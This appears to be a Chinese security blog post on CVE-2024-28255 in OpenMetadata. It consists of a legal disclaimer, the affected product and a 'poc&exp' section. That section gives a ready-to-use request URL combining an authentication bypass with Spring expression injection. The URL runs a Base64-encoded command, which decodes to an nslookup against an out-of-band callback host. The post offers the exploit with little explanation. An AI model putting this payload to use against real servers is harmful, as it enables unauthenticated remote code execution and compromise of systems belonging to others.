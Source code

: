 #  CVE-2024-28255   
原创 A___bandon  漏洞猎人   2024-04-15 07:16  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="184" style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><p style="outline: 0px;visibility: visible;"><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">免</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">声</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">：</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">涉</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">及</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">安</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">全</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">技</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">术</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">知</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">识</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">仅</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">参</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">考</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;letter-spacing: 0.578px;text-decoration: line-through;visibility: visible;"></span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">学</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">习</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">之</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">构</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">成</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">暗</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">提</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">自</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">判</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">断</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">其</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">适</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">由</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">此</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">产</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">生</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">一</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">切</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">风</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">险</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">基</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">做</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">出</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">为</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">决</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">定</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">情</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">况</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">下</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">因</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">而</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">导</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">致</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">直</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">间</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">特</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">殊</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">后</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">果</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">损</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">失</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">遵</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">守</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">地</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">违</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">反</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">相</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">关</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span></span></strong></p></td></tr></tbody></table>  
  
  
  
影响版本  
  
  
OpenMetadata  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJXbDABjvnFCP3IRKasFcHbXnJekribQwW3Tw4FAH8f8Yaiaqhg44ic7IsXXsQ5Hwib2sbCRdic0f9WMc9A/640?wx_fmt=png&from=appmsg "")  
  
  
poc&exp  
```
http://xxx.xxx.xxx.xxx/api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22bnNsb29rdXAgY29hdnJmdGJscTYyY2syajRiaWdkaHV0a2J0ZDFtd2Q1Lm9hc3Qub25saW5l%22)))
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJXbDABjvnFCP3IRKasFcHbXjjqYl9TJAuqoRHibQHyhzsY5n8WCrDIrd8m1DwdjkrvcW6z8e48cCEQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUH41ow46vKhge3WzNajaArNT83xSnTuhw1XLjkeYIuIQ8041dMaD2IsPFhtVfNNYia3bQWbxxuVbA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
